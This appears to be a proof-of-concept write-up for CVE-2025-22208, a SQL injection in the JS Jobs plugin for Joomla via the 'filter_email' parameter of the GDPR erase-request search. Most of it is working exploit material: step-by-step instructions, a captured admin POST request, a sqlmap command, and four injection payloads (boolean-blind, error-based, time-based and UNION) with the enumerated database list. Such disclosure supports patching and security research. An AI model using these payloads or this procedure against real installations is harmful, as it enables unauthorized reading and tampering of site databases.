 # CVE-2025-22208: JS Jobs SQL injection vulnerability

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22208

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'filter_email' parameter in the GDPR Erase Data Request search feature.

## POC
To exploit this vulnerability, go to 'Dashboard >> GDPR >> Erase Data Request >> Search' and capture the search Useremail request. Save that request to a file (req.txt) and run SQLMap through the file to exploit the vulnerable parameter (filter_email).

![Alt text](https://i.imgur.com/JUc9L90.png)

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 77
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=gdpr&view=gdpr&layout=erasedatarequests
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 540e9ab0c71c4445060a757b38444b04=64de8ff28342024d979552d8ff96e3cb; 58f028dd2afd9618c7033dd698dbf770=734e1e9a18b54f3f0a547799648d236e; f1b049cf45956510881f9283cc70983f=df845e612a28854cd04a392e5aac5505; 954f55fc9005096c1cbc635a7c8608fc=294bd118db443aa54b1be9313c54e685
Connection: keep-alive

filter_email=test&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
```

**Exploit:**
```
ubuntu@host:~/sqlmap$ python3 sqlmap.py -r ~/req.txt --batch --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter_email (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: filter_email=test' AND EXTRACTVALUE(5420,CASE WHEN (5420=5420) THEN 5420 ELSE 0x3A END)-- dphL&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter_email=test' AND GTID_SUBSET(CONCAT(0x7178717071,(SELECT (ELT(4721=4721,1))),0x716b6b7671),4721)-- AoFU&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter_email=test' AND (SELECT 7546 FROM (SELECT(SLEEP(5)))IRqy)-- tkAY&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: filter_email=test' UNION ALL SELECT NULL,CONCAT(0x7178717071,0x7071627259697252544c554b76616c4e794d4a6e4156424f6d7977616b507468704a556f646f4250,0x716b6b7671),NULL,NULL,NULL,NULL,NULL,NULL#&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
